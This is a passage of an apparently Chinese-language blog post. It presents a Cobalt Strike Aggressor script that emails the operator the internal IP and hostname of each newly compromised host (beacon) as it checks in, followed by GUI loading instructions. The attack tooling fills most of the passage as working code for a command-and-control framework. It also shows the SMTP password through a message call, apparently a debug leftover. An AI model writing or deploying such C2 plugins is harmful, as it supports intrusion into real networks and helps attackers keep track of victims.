 ```

on beacon_initial `{`

    show_message($myEmailPassword);

foreach $entry (beacons()) `{`

               if($entry['id'] == $1)`{`
$value = [new Main];
[$value setValue : $myEmailAccount,$myEmailPassword,$smtp,@Recipients,$entry['computer'] ,$Sender,"Target ip:" . $entry['internal'] . " Target host: " . $entry['computer']];
[$value  start];
println(@Recipients);
  `}`
   `}`
`}`

popup attacks `{`
local('$dialog %defaults');
  item "set email"`{`
# setup our defaults
%defaults["smtp"] = "smtp.163.com";
%defaults["myEmailAccount"]  = "xxx@163.com";
%defaults["myEmailPassword"] = "*******";
%defaults["Sender"] = "Sender";
%defaults["Recipients"] = "xxx@gmail.com";
$dialog = dialog("email online reminder", %defaults, &amp;stage_attack);
dialog_description($dialog, "This is a cobalt strike on-line automatically remind the plug-in if there are multiple recipients please use, separated.");
drow_text($dialog, "smtp", "smtp: ");
drow_text($dialog, "myEmailAccount", "Outbox: ");
drow_text($dialog, "myEmailPassword", "Password: ");
drow_text($dialog, "Sender", "Sender: ");
drow_text($dialog, "Recipients", "Recipients: ");
dbutton_action($dialog, "Launch");

        # show our dialog
        dialog_show($dialog);
  `}`
`}`
```

<strong>GUI版本加载方法*<br>
通过点击</strong>Cobalt Strike – &gt; Script Manager**并按**Load**在图形化中脚本。<br>[![](https://www.cobaltstrike.com/aggressor-script/images/scriptloader.jpg)](https://www.cobaltstrike.com/aggressor-script/images/scriptloader.jpg)

GUI版本主要就是为了方便在GUI界面中使用，使用dialog的方式进行呈现方便用户使用，在attacks下载框中添加`set email`选项点击调用一个dialog输入框输入完成点击`Launch` 即可。

[![](https://p5.ssl.qhimg.com/t01fa22db7aba0f7100.png)](https://p5.ssl.qhimg.com/t01fa22db7aba0f7100.png)
